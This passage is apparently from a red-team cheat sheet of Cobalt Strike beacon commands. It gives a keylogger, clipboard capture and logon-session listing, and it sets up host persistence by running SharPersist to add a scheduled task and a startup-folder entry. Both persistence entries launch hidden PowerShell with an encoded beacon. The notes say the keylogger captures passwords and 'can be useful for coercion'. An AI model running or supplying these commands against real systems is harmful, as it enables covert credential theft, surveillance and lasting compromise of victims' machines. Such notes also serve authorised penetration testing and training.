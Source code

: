 #### Keylogger

keylogger - captures user keystrokes, useful for capturing usernames, passwords, or other sensitive information. Can be useful for coercion.

```sh
beacon> keylogger

beacon> jobs
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 6    0     keystroke logger

beacon> jobkill 6
```

#### Clipboard

`clipboard` - captures any text from users clipboard. Does not capture images or other data.

```sh
beacon> clipboard
```

#### User Sessions

`net logons` - lists the logon sessions on this machine.

```sh
beacon> net logons
```



## Host Persistence

### Task Scheduler

#### SharPersist - schtask

```sh
beacon> execute-assembly C:\Tools\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" 
-a "-nop -w hidden -enc <b64 encoded CS beacon>" -n "Updater" -m add -o hourly
```

### Startup Folder

#### SharPersist - startupFolder

<pre><code><strong>beacon> execute-assembly C:\Tools\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" 
</strong><strong>-a "-nop -w hidden -enc &#x3C;b64 encoded CS beacon>" -f "NameOfStartUpFolder" -m add
</strong></code></pre>
